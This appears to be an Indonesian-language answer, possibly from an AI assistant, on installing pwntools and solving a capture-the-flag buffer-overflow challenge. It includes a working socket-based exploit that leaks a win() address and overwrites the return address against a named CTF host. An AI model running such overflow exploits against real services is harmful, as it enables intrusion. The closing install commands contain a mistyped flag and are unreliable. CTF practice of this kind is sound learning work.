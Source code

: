 Kalau kamu belum bisa install `pwntools` karena keterbatasan lingkungan, ada beberapa solusi tergantung sistem dan kondisimu. Aku jelaskan beberapa cara:

---

## 🛠️ 1. **Coba pakai Python Virtual Environment**

Kalau sistemmu tidak punya `pwntools` tapi bisa install Python packages, coba:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-venv -y

# Buat virtual environment
python3 -m venv pwnenv
source pwnenv/bin/activate

# Install pwntools
pip install --upgrade pip
pip install pwntools
```

> Kalau berhasil, jalankan semua script eksploitasi dalam venv ini: `source pwnenv/bin/activate`

(below this are unnecessary)
---

## 🧪 2. **Coba di Docker (lebih bersih dan portable)**

Kalau bisa pakai Docker:

```bash
sudo apt install docker.io -y
sudo docker run -it --rm --name pwnbox -v $(pwd):/ctf --workdir /ctf python:3.10 bash

# Di dalam container:
pip install pwntools
```

> Semua script bisa kamu taruh di folder lokal (`$(pwd)`), dan akan muncul di `/ctf` dalam container.

---

## 🔧 3. **Coba manual tanpa pwntools (pakai Python + `socket`)**

Kalau benar-benar tidak bisa install apa pun, kamu masih bisa eksploitasi pakai script Python dasar:

```python
import socket
import time
import struct

def p64(val):
    return struct.pack("<Q", val)  # little-endian 64-bit

s = socket.create_connection(("moklet-sec.site", 10000))

def recv_until(prompt):
    data = b""
    while not data.endswith(prompt):
        data += s.recv(1)
    return data

# Step 1: kirim 'leboy' dan ambil alamat win()
recv_until(b"ask yobel : ")
s.send(b"leboy\n")
leak_line = s.recv(1024).decode()
print("[+] Leak line:", leak_line)
win_addr = int(leak_line.strip(), 16)
print("[+] Win address:", hex(win_addr))

# Step 2: quit dan konfirmasi
recv_until(b"ask yobel : ")
s.send(b"quit\n")
recv_until(b"are you sure Y/N?")
s.send(b"Y\n")

# Step 3: exploit dengan payload overflow
recv_until(b"kata kata sebelum solve bang : ")
payload = b"A" * 72 + p64(win_addr)
s.send(payload + b"\n")

# Step 4: baca output (semoga flag!)
while True:
    try:
        print(s.recv(4096).decode(), end="")
    except:
        break

s.close()
```

> Script ini adalah versi **tanpa pwntools**, pakai `socket` dan `struct` biasa. Tetap bisa jalan asal tahu offset overflow-nya.

---

Jika berhasil, instal dengan menyalin command-command ini:
```bash
sudo apt install gdb pip
pip install pwn pwntools pwndbg --break-systempackages
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
ls
./setup.sh
```
